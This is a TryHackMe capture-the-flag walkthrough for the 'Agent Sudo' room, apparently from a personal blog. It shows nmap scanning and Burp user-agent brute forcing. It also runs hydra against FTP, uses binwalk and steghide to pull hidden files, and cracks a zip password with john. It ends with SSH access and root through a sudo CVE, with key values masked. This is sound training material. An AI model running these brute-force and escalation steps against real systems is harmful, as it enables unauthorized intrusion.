


+++
title = "Agent Sudo - TryHackMe Writup"
description = "A secret server is located under the deep sea, hack and reveal the truth."
date = 2024-10-22
slug = "agent-sudo"
image = "agent_sudo.png"

[taxonomies]
categories = ["TryHackMe", "Writups"]
tags = ["agent sudo", "tryhackme", "stagenography"]
+++

<div style="display: flex; align-items: center;">
  <div>
    
  </div>
  <div style="margin-left: 10px;">
    <i>You found a secret server located under the deep sea. Your task is to hack inside the server and reveal the truth.</i>
  </div>
</div>

## 1. Enumeration
Target IP: 10.10.165.175

There are 3 ports are open.

```nmap 10.10.165.175 -v```
<pre>
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
</pre>

The message shown in homepage, ```http://10.10.165.175/``` is

<pre>
Dear agents,

Use your own codename as user-agent to access the site.

From,
Agent R
</pre>

It seems need to use `user-agent` as codename. The codename is from A to Z maybe, as there is shown Agent R. For that i will use BurpSuite.

I have inserted playod in `user-agent` from A to Z, and forwarded through intruder. 


Response length for C and R are different, for C less and for R more. By analyzing I found R have much content as

<pre>
What are you doing! Are you one of the 25 employees? If not, I going to report this incident
	
Dear agents,
Use your own <b>codename</b> as user-agent to access the site.

From,
Agent R
</pre>

But in case of C, there is status code `302` and the locetion is 
`Location: agent_C_attention.php`



Now visit the location we found,
<pre>
Attention chris,

Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak!

From,
Agent R
</pre>

The agent name is `chris` and it says the password is weak.

## 2. Attack
Lets try out password crack for user cheris in FTP.
we will use hydra for attack and rockyou.txt for password list.

`hydra -l chris -P /usr/share/wordlists/rockyou.txt 10.10.165.175 ftp`


After the successful login to FTP, we got 
<pre>
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0             217 Oct 29  2019 To_agentJ.txt
-rw-r--r--    1 0        0           33143 Oct 29  2019 cute-alien.jpg
-rw-r--r--    1 0        0           34842 Oct 29  2019 cutie.png
226 Directory send OK.
</pre>

All the files are download by simply `get` command.

The message says that the password is stored inside the image. So need to apply the concept to steganography.

<pre>
❯ cat To_agentJ.txt
Dear agent J,

All these alien like photos are fake! Agent R stored the real picture inside your directory. Your login password is somehow stored in the fake picture. It shouldn't be a problem for you.

From,
Agent C
</pre>

Now, using `binwalk` and getting info if found.

<pre>
❯ binwalk cute-alien.jpg

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             JPEG image data, JFIF standard 1.01

❯ binwalk cutie.png

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             PNG image, 528 x 528, 8-bit colormap, non-interlaced
869           0x365           Zlib compressed data, best compression
34562         0x8702          Zip archive data, encrypted compressed size: 98, uncompressed size: 86, name: To_agentR.txt
34820         0x8804          End of Zip archive, footer length: 22
</pre>

Now extracting the cutie.png using `binwalk -e cutie.png` we have 365,  365.zlib and  8702.zip files, zip is important and is password protected.

Using `John The Ripper` to crack this password. First creating hash by `zip2john 8702.zip > zip_pass.hash` and then cracking the hash as

<pre>
❯ john --wordlist=/usr/share/wordlists/rockyou.txt zip_pass.hash
.............
Press 'q' or Ctrl-C to abort, almost any other key for status
ali**            (8702.zip/To_agentR.txt)
1g 0:00:00:00 DONE (2024-10-08 17:45) 1.162g/s 28576p/s 28576c/s 28576C/s christal..280789
Session completed
</pre>

Now we have zip password, extract it. The message found is 
<pre>
Agent C,

We need to send the picture to 'QXJlYTUx' as soon as possible!

By,
Agent R
</pre>

Here `QXJlYTUx` is encoded, lets decode using base64 as 
<pre>
echo 'QXJlYTUx' | base64 -d
Area**
</pre>

Now look into cute-alien.jpg, using `steghide`. After the command `steghide --info cute-alien.jpg`, we found that the `message.txt` file is embedded there.

Extracting it using `steghide --extract -sf cute-alien.jpg`. The message is 
<pre>
❯ cat message.txt
Hi jam**,

Glad you find this message. Your login password is hacker******

Don't ask me why the password look cheesy, ask agent R who set this password for you.

Your buddy,
chris
</pre>

## 3. Capture the Flag

Here we got SSH username and password. Now connect to it as
`ssh jam**@10.10.165.175`, got the user flag.


To know the incident of the photo `Alien_autospy.jpg` we need to download (maybe using scp) and search on google as

`scp jam**@10.10.165.175:/home/jam**/Alien_autospy.jpg .`

By searching we found the image from `Roswell`

## 4. Privilege Escalation
Starting from `sudo -l`, found that user can run /bin/bash only as sudo. Now looking for sudo vulnerability for the version `1.8.21p2` (googling it.), we have CVE-2019-14***.

The exploit is `sudo ***** /bin/bash` (found in exploit-db) and we got



Final message from Agent R is

<pre>
To Mr.hacker,

Congratulation on rooting this box. This box was designed for TryHackMe. Tips, always update your machine. 

By,
Des*** a.k.a Agent R
</pre>

Happy Hacking !!